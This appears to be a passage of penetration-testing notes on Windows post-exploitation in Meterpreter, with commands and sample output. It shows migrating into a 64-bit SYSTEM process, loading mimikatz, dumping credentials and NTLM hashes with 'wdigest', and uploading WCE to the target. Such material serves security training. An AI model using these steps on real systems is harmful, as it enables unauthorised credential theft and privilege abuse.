   If running on a 32-bit process, migrate to a 64-bit process with the same privileges (e.g., SYSTEM).

- **Migrating to a 64-bit process**:
  1. List processes with SYSTEM privileges and filter by architecture using:

     ```
     meterpreter > ps -A x86_64 -s
     ```

     `-A`: Specifies the architecture (e.g., x64)
     `-s`: Filters for SYSTEM processes

     Example of output:
     ```
     PID   Name        Arch   User
     280   smss.exe    x64    NT AUTHORITY\SYSTEM
     308   svchost.exe x64    NT AUTHORITY\SYSTEM
     ```

  2. Identify a 64-bit process (e.g., `smss.exe`, `svchost.exe`) and migrate to it by using:

     ```
     meterpreter > migrate [PID]
     ```

     Example:
     ```
     meterpreter > migrate 448
     ```

  3. Verify the migration by checking the user and system info:

     ```
     meterpreter > getuid
     meterpreter > sysinfo
     ```
4. 
- Run `load mimikatz` and use `help` to list available commands.
- Mimikatz allows credential retrieval from various services and protocols.
- **Retrieving credentials with wdigest**:
  1. To extract credentials from the system, use the `wdigest` command:

     ```
     meterpreter > wdigest
     ```

  * The output will display credentials such as the AuthID, NTLM hashes, and users.
 
  - **Mimikatz Usage**: 
  - Mimikatz offers various modules like `crypto`, `hash`, `system`, `privilege`, and more. Explore the commands and modules for further tasks, such as credential extraction and privilege manipulation.

For more detailed exploration, refer to the [Mimikatz wiki](https://github.com/gentilkiwi/mimikatz/wiki).

- **Using WCE (Windows Credentials Editor)**:
  Another very useful tool that can be used in this step is WCE (Windows Credentials Editor). Since it is a Windows binary, you will have to upload it to the remote machine and then run it from the Meterpreter session.
